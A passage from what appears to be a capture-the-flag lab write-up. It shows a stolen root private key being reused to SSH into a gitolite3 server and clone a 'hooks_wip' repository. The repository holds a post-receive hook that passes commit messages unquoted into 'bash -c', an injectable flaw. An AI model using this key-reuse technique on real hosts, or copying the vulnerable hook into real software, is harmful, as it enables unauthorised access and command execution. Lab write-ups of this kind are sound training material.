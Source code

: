 ### Third Flag

With a shell on the container, we now also gain access to the private key at `/app/admint/root.key`.

```console
6238c1cc6eec:/app/admint# ls -la root.key
-rw-------    1 root     root           513 Dec 15 23:23 root.key
```

Once again, using this key to authenticate to the **SSH** server on the host as the `git` user, we see that we authenticate as the `developer` user to **gitolite3** instead of the `backup` user from before and gain access to two new repositories: `gitolite-admin` and `hooks_wip`. Additionally, we now have write access to the `admdev` repository.

```console
$ ssh -i root.key git@bestfestivalcompany.thm
PTY allocation request failed on channel 0
hello developer, this is git@tryhackme-2404 running gitolite3 3.6.12-1 (Debian) on git 2.43.0

 R W    admdev
 R      admint
 R      bfcthehubint
 R      bfcthehubuat
 R      gitolite-admin
 R      hooks_wip
 R      underconstruction
Connection to bestfestivalcompany.thm closed.
```

Cloning the `hooks_wip` repository and checking it, we see a single `post-receive` hook inside.

```console
$ GIT_SSH_COMMAND="ssh -i root.key" git clone git@bestfestivalcompany.thm:hooks_wip.git
$ ls -la hooks_wip
total 16
drwxrwxr-x 3 kali kali 4096 Dec 26 18:01 .
drwxrwxr-x 7 kali kali 4096 Dec 26 18:01 ..
drwxrwxr-x 8 kali kali 4096 Dec 26 18:01 .git
-rw-rw-r-- 1 kali kali  494 Dec 26 18:01 post-receive
```

Examining the hook, which runs whenever a commit gets pushed, it reads the old and new revision and the reference name. If the new revision is not zero, it extracts the commit message using `git log` and writes it to the log file along with the date, reference name, and the commit message.

```bash
#!/bin/bash

LOGFILE="/home/git/gitolite-commit-messages.log"

while read oldrev newrev refname; do
    if [ "$newrev" != "0000000000000000000000000000000000000000" ]; then
        # Get the commit message
        commit_message=$(git --git-dir="$PWD" log -1 --format=%s "$newrev")
        bash -c "echo $(date) - Ref: $refname - Commit: $commit_message >> $LOGFILE"
    else
        # Log branch deletion
        bash -c "echo $(date) - Ref: $refname - Branch deleted >> $LOGFILE"
    fi
done
```
